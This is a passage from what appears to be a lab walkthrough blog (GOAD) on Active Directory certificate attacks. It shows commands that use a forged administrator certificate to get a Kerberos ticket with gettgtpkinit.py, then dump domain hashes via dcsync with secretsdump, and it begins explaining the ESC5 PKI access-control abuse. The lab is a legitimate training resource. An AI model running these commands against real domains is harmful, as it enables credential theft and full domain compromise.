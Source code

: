 - Authentication can also be done with gettgtpkinit

```bash
gettgtpkinit.py -cert-pfx administrator_forged.pfx -dc-ip 192.168.56.12 "essos.local/administrator" admin_tgt.cccache
```

![part14_esc5_pkinit2.png](/assets/blog/GOAD/part14_esc5_pkinit2.png)

- And launch a dcsync with our domain admin tgt

```bash
export KRB5CCNAME=/workspace/admin_tgt.cccache
secretsdump -k meereen.essos.local -dc-ip 192.168.56.12
```

![part14_esc5_dcsync.png](/assets/blog/GOAD/part14_esc5_dcsync.png)

> Be sure to have `192.168.56.12   meereen.essos.local` in your host file.
{: .prompt-info }


## ESC5 : "Vulnerable PKI Object Access Control"
- One way to exploit esc5 is by abusing the permission on the child to domain to escalate to the root domain.
- If we look on the child domain NORTH, we can see that SYSTEM has Full Control on the Public Key Service Container of the main domain (sevenkingdoms).
